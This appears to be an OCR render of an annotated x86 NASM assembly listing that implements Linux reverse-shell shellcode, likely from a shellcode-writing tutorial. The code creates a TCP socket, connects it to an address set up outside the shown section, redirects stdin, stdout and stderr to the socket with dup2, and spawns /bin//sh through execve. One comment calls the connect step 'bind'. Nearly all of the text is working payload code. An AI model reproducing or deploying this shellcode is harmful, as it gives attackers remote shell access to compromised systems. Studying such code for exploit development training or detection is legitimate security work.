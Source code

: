 ```nasm
    ;This part initialize and call the "socket" systemcall
    mov ax, 0x167       ;Move the "socket" systemcall number inside ax
    mov bl, 0x02        ;Move the "AF_INET" value (which means IPV4) inside bl
    mov cl, 0x01        ;Move the "SOCK_STREAM" value (which means TCP) inside cl

    ;C code representation of the systemcall:
    ; --> s = socket(AF_INET, SOCK_STREAM, 0);
    int 0x80            ;Execute the systemcall
    mov esi, eax        ;Move the return value from the "socket" systemcall into esi


    ;This part initialize and call the "bind" systemcall
    xor eax, eax        ;Initialize eax to NULL
    mov ax, 0x16a       ;Move the "connect" systemcall number inside ax
    mov ebx, esi        ;Move the return value of "socket" inside ebx
    mov ecx, esp        ;Point ecx to the structure
    ;Get the structure size
    mov edx, ebp        
    sub edx, esp        ;Use the stack pointers (esp and ebp to calculate the size of the structure)
    
    ;C code representation of the systemcall:
    ; --> connect(s, (struct sockaddr *)&sa, sizeof(sa));
    int 0x80            ;Execute systemcall


    ;This part redirect the STDIN, STDOUT and STDERR into the socket
    xor ecx, ecx        ;Initialize ecx to NULL
    mov cl, 3           ;Initialize cl to 3
    boucle:
        xor eax, eax    ;Initialize eax to NULL
        mov al, 0x3f    ;Move the "dup2" systemcall number inside al
        mov ebx, esi    ;Move the return value of "socket" in ebx
        dec cl          ;Decrement cl to 1

        ;C code representation of the systemcall:
        ;for (int i = 0; i < 3; i++)
        ;{
        ;    dup2(s, i);
        ;}
        int 0x80        ;Execute systemcall
        inc cl          ;Increment cl to 1
        loop boucle     ;Loop until cl is equal to 0 (Three times)


    ;This part initialize and call the "execve" systemcall
    xor eax, eax        ;Initialize eax to NULL
    push eax            ;Push a NULL Byte on the stack
    push 0x68732f2f     
    push 0x6e69622f     ;push "/bin//sh" on the stack
    mov ebx, esp        ;Initialize ebx to "/bin//sh%00"
    xor ecx, ecx        ;Initialize ecx to NULL
    xor edx, edx        ;Initialize edx to NULL
    mov al, 0xb         ;Move the "execve" systemcall number inside al
    ;C code representation of the systemcall:
    ; --> execve("/bin/sh", NULL, NULL);
    int 0x80            ;Execute systemcall
```
